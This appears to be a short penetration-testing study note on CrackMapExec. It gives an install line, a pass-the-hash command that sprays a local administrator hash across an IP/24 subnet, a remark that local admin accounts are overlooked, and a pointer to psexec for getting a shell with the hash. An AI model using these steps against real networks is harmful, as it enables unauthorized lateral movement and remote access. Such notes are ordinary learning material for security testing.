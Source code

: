 Crackmapexec

* apt install crackmapexec 
* crackmmapexec IP/24 -u "User ID" -H Hash --local
	* local admin account are important because poeple think that they are not as important because they are local 
* could now use psexec to get a shell with the hash at this point 